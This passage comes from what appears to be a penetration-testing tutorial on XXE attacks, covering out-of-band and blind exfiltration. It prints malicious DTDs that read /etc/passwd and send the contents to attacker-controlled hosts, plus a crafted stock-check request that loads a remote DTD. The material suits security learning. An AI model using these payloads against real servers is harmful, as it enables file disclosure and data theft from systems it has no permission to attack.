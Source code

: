            - 5 - Then it evaluate `%file` ENTITY and exfiltrate the content of the `file://` we mentioned from the application server.

           - 6 - Then Application send a HTTP request with `x` parameter with the content of the `file://`.

5) - At last, the attacker get the the content of the `%file` in the attacker controlled `burp_collaborator_client.`

6) The attacker server with `malicious.DTD` file look like this at `[http://attacker_server.com/malicious.DTD]`

		<!ENTITY % file SYSTEM "file:///etc/passwd">
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://burp_collaborator_client.net/?x=%file;'>">
		%eval;
		%exfil;

7) By this technique, we get DNS and HTTP interaction with file content.
---
### 5 - Exploiting Blind XXE to retrieve data
1) Consider we're testing an E-commerce application in which application fetches stock of the product from server and the request goes like this ...

	       POST /product/stock HTTP/2
			Host: subdomain.target.com
			Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
			Content-Length: 107
			...
			...
			Connection: close
          ..
		    <?xml version="1.0" encoding="UTF-8"?>
		      <stockCheck>
		      	<productId>2</productId>
			    <storeId>1</storeId>
			  </stockCheck>

2) In this case we put a malicious DTD(Document Type Definition) in our(attacker) own server and then we extract the content by the manipulating server with the interaction of our malicious DTD, malicious DTD look like this..

		<!ENTITY % file SYSTEM "file:///etc/passwd">
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///unknown_file/%file;'>">
		%eval;
		%exfil;

3) So, the request we send through application by adding our payload look like this.

	           POST /product/stock HTTP/2
	   		Host: subdomain.target.com
	   		Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
	   		Content-Length: 107
	   		...
	   		...
	   		Connection: close
	   		 ..  
	   	    <?xml version="1.0" encoding="UTF-8"?>
	   	    <!DOCTYPE foo[<!ENTITY % prakhar SYSTEM "https://attacker_server.com/malicious.DTD"> %prakhar;]>
	   	      <stockCheck>
	   	      	<productId>2</productId>
	   		    <storeId>1</storeId>
	   		  </stockCheck>
